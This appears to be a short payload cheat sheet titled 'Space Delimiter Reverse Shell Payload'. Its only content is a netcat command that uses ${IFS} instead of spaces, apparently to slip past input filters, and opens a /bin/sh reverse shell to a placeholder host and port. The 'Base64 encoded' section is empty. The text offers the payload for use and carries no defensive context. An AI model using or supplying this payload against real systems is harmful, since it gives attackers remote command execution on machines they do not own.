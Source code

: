 # Space Delimiter Reverse Shell Payload

## Payloads

### 1) Netcat

    nc${IFS}MY_IP${IFS}MY_PORT${IFS}-e${IFS}/bin/sh

### 2) Base64 encoded
